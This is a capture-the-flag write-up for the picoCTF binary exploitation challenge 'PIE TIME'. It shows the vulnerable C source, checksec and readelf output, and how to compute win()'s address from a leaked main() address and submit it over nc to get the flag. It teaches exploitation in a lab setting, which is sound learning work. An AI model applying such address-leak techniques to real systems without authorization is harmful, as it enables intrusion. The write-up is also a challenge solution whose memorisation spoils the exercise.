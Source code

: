# PIE TIME #
 
## Overview ##

75 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #PIE #infoleak #ASLR`

## Description ##

Can you try to get the flag? Beware we have PIE!

## Approach ##

Analysing the provided `vuln.c` challenge source file, there is a `win()` function that drops our flag from a file, that we need to call.

`main()` requests an address from the user to call as a function pointer, obviously the target is the address of the `win()` function.

    int main() {
      signal(SIGSEGV, segfault_handler);
      setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

      printf("Address of main: %p\n", &main);

      unsigned long val;
      printf("Enter the address to jump to, ex => 0x12345: ");
      scanf("%lx", &val);
      printf("Your input: %lx\n", val);

      void (*foo)(void) = (void (*)())val;
      foo();
    }

Checking binary securities:

    $ checksec vuln
    [*] '/home/user/picoCTF/PIE-TIME/vuln'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled

As the name of the challenge would have us suspect, the binary is a Position Independent Executable (PIE), meaning our code segment will be located at a different address each execution.

Conveniently the address of `main()` is "leaked" (or given to us rather), so we can calculate the relative offset from `main()` to `win()` functions such that we can apply this relative offset to the leaked address, resulting in the current absolute address for the `win()` function for this execution. This is possible as the code segment moves around in the address space, but the relative offsets of the code within the segment remains the same.

So lets find the offsets of these functions from the code segment base (or portable) address and then calculate the relative offset between them:

    $ readelf -s ./vuln | egrep "main|win"
        66: 00000000000012a7   150 FUNC    GLOBAL DEFAULT   16 win
        70: 000000000000133d   204 FUNC    GLOBAL DEFAULT   16 main

    (offset of win()) - (offset of main()) = relative offset
    0x133d - 0x12a7 = 0x96    

Noting that `win()` is at a lower address, hence we must subtract this relative offset from the leaked `main()` address.

## Solution ##

From the challenge server: 

    $ nc rescued-float.picoctf.net 55494
    Address of main: 0x5660322e333d
    Enter the address to jump to, ex => 0x12345: 0x5660322E32A7
    Your input: 5660322e32a7
    You won!
    picoCTF{...........redacted.............}

The address of `main()` for this invocation was `0x5660322e333d`.

Therefore `0x5660322e333d - 0x96 = 0x5660322e32a7`. Inputting this calculated absolute address for `win()` dropped us the flag.

Where the actual flag value has been redacted for the purposes of this write up.
